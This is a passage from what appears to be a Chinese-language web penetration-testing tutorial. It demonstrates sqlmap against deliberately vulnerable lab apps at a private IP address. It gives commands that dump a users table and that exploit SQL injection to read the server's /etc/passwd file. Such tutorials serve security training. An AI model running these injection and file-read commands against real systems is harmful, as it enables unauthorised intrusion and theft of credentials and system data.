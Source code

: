 为了从某些表中提取所有数据，我们使用`--dump`选项加`-D`来指定数据库，使用`-T`来指定表：

```
sqlmap -u http://10.7.7.5/bodgeit/login.jsp --data "username=23&password=23" -D public -T users -dump  
```

让我们看一个输出示例：

![](img/00153.jpeg)

攻击者的目标是利用 SQL 注入漏洞在服务器上获得进一步的立足点。使用 sqlmap，您可以利用注入缺陷在数据库服务器上读写文件，注入缺陷会调用目标上的`load_file()`和`out_file()`函数来完成该操作。在下面的示例中，我们正在读取服务器上的`/etc/passwd`文件的内容：

```
sqlmap -u "http://10.7.7.5/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -p username --file-read /etc/passwd  
```
